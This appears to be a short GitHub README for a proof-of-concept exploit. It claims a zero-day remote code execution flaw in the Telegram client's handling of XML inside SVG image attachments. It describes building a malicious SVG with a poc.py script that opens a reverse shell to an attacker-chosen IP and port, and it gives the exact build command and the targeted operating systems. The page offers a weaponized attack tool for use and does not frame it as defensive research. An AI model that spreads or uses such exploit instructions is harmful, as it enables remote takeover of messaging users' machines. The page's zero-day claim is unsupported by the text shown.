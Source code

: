# telegram-zero-day-rce-poc
Telegram zero day remote code execution vulnerability discovered in how the telegram client processes svg image attachments regarding XML tags within the svg images. Spawns a reverse shell and connects back to the ip/port that was specified while building the malicious svg file with the poc.py script.

## Instructions
1. command: `python poc.py -f [SVG FILE] -i [IP HERE] -p [PORT HERE]`

## Supported Operating Systems
- Windows
- Linux
